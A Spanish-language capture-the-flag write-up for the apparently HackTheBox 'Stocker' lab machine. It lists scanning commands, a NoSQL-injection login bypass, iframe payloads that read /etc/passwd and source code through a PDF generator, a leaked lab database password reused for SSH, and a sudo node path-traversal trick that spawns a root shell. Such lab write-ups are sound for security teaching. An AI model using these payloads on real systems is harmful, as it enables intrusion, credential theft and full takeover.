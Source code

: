 -----------
- Tags: #linux #nosql #htmlinjection #nodejs #pathtraversal #express
-----------

## Enumeración
----------

- Identificación de SO:
```bash
ping -c 1 10.10.11.196
```
![Pasted image 20240831133115.png](Imagenes/Stocker)
Como vemos según lo que nos indica el `ttl` es una maquina `Linux`

- Identificación de puertos abiertos en la maquina:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
```

- Identificación de servicios corriendo en los puertos abiertos:
```bash
nmap -p22,80 -sCV 10.10.11.196 -oN targeted
```

![Pasted image 20240831133708.png](Imagenes/Stocker)

- Al ver que hay un puerto 80 con el servicio `http` corriendo por debajo podemos lanzar el siguiente script de nmap:
```bash
nmap -p80 --script="http-enum" 10.10.11.196 -oN webScan
```

- Para ver información básica sobre la web que hay corriendo por el servidor:
```bash
whatweb http://stocker.htb/
```

![[Pasted image 20240831134053.png]]

-----------------
## Fuzzing
------------

- Miramos si hay subdominios:
```bash
wfuzz -c -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" http://stocker.htb/
```

![[Pasted image 20240831134343.png]]

Como hemos visto hemos encontrado un subdominio en el que vamos a mirar que es lo que hay dentro de el y haremos un poco de enumeración.

![[Pasted image 20240831134725.png]]

-------
## Explotación
--------------------

Como podemos observar el nuevo `subdominio` es un panel de login, podemos probar varios tipos de técnicas para poder bypassearlo o identificación de vulnerabilidades como lo siguiente:
- Probar passwords por defecto
- SqlIjection
- NoSQLInjection

**De primeras lo que tenemos que hacer al ver `Express` & `NodeJs` es interceptar la petición con `burpsuite` y ver si podemos mandar peticiones en `JSON`**

`Cuando una aplicacion esta construida con NodeJs y Express normalmente estan construidas sobre bases de datos diferentes a MySql, como por ejemplo PostgreSQL y MongoDB, estas dos son bases de datos no relacionales, por lo que podemos hacer Inyecciones SQL para bypassear el panel de Login`

- Antes tenemos que cambiar el `Conten-Type:` `application/json`
- Payload:
```bash
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Una vez que hemos bypasseado el panel de Login empezamos a indagar un poco en la pagina web para encontrar vulnerabilidades que podemos encontrar.

---------------
## HTML INJECTION
-------------------

**A la hora de crear un pedido nos crea un archivo pdf, si nosotros lo capturamos con Burpsuite a la hora de la creación del archivo pdf podemos comprobar que podemos modificar los elementos que hay dentro del pdf, dentro de todos estos elementos el que nos importa a nosotros es el `titulo`, el que se muestra por pantalla básicamente.**

**Por lo general los generadores de PDF pueden renderizar etiquetas html, lo que nos abre una posibilidad de hacer una inyeccion html.**
**Hemos intentado inyectar unas etiquetas `<script>` dentro del pdf, al darle a recargar el servidor devuelve un error interno, lo que significa que intento representar las etiquetas pero fallo.**

**Teniendo en cuenta la información anterior, es posible que podamos cargar el generador de PDF y mostrar archivos del sistema mediante `iframes`. Considere la siguiente carga útil HTML.**

- Payload:
```bash
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```

`iframes, o Inline Frames, son elementos HTML que pueden cargar otra página HTML dentro de la misma documento. El atributo src es el origen del contenido del servidor externo o interno.`

- Ejemplo practico en `Burpsuite`:
![[Pasted image 20240831141423.png]]

Al recargar veremos el documento pdf generado...

![[Pasted image 20240831141651.png]]
Como vemos tenemos un LFI en el que podemos listar archivos internos del servidor, lo próximo que tendríamos que hacer es buscar algún archivo que nos proporcione credenciales como algún `id_rsa` o algún archivo de configuración del servidor.

---------------
## Wildcard Injection
-------------

**Sin embargo, nos encontramos con un problema, que es que no sabemos dónde está la aplicación de desarrollo situado. Un truco fácil que podemos usar para determinar potencialmente esta ubicación es enviar JSON con formato incorrecto en uno de los puntos de conexión de la aplicación para ver si produce un error. Usemos el punto de conexión de compra como lo hicimos previamente. Para hacer esto podemos atrapar otra solicitud en Burp y quitar uno de los corchetes }. Después Al quitar el corchete y enviar la solicitud, obtenemos el siguiente mensaje de error.**

![[Pasted image 20240831142307.png]]

**A partir del error, podemos ver que la aplicación está alojada en la carpeta `/var/www/dev/` y dado que se trata de un `NodeJS` podemos intentar leer varios nombres de archivo predeterminados para encontrar la función principal de la aplicación aplicación. Por lo general, esto se denomina `index.js` o `main.js` o incluso `server.js`.**

- Hacemos lo mismo con `Burpsuite` aplicando otro payload:
```bash
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```

- Nos devuelve el siguiente archivo de configuracion del servidor:
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
```

**Como hemos visto anteriormente el usuario era `angoose` y la password como vemos es `IHeardPassphrasesArePrettySecure`**

------------
## Conexión SSH
------------

```bash
ssh agoose@10.10.11.196
```

----------
## Escalada de Privilegios
-------------

```bash
sudo -l
```

![[Pasted image 20240831142949.png]]

**Lo que nos esta diciendo es que el usuario angoose puede ejecutar node como `sudo` ejecutando un script de la ruta `/usr/local/scripts/*.js`**

Por lo que podemos hacer lo siguiente, con el siguiente `payload` podemos ejecutar node e iniciar una shell como `root`:
```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Como solo podemos ejecutar scripts de la ruta `/usr/local/scripts` podemos probar a en el directorio `/tmp` crear el siguiente script y ejecutar el siguiente comando:
- shell.js
```bash
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
- Comando:
```bash
sudo node /usr/local/scripts/credentials.js/../../../../../../tmp/shell.js
```

**Lo que estamos realizando es un `path traversal` y estamos bypasseando que solo se puedan ejecutar scripts de dicha ruta.**
